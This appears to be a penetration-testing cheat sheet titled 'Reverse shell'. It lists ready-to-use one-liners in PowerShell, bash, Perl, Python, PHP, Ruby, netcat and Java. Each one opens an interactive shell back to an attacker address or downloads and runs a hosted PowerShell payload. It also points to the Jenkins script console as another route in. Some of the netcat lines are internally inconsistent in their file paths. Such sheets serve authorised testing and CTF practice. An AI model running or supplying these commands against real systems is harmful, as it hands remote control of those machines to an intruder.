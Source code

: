 # Reverse shell

###  Powershell

```c
// Edit and host nishang Invoke-PowershellTcp
Powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.32/shell.ps1)

// using powershell.exe os bit architecture
C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New-Object Net.WebClient).downloadString('http://10.10.14.32/shell.ps1)

```

### Bash/Shell

```bash
# bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

# /bin/bash
/bin/bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

# sh
sh -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

### Perl

```bash
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};' 
```

### Python

```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### PHP

```bash
# This code assumes that the TCP connection uses file descriptor 3.  If doesn’t work, try 4, 5, 6…
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### Ruby

```bash
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Netcat / Netcat without -e

```bash
# sh
nc -e /bin/sh 10.0.0.1 1234

# bash
nc -e /bin/bash 10.0.0.1 1234

#Netcat without -e
rm /tmp/2;mkfifo /tmp/2;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/2

#Netcat without -e (FREEBSD ONLY!)
rm /tmp/2;mkfifo /tmp/2;cat /tmp/f|/bin/sh -i |nc 10.0.0.1 1234 >/tmp/2
```

### Java

```bash
r = Runtime.getRuntime()p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])p.waitFor()
```

### JENKINS Script Console

Jenkins &gt; Manage Jenkins &gt; script console

{% embed url="https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76" %}

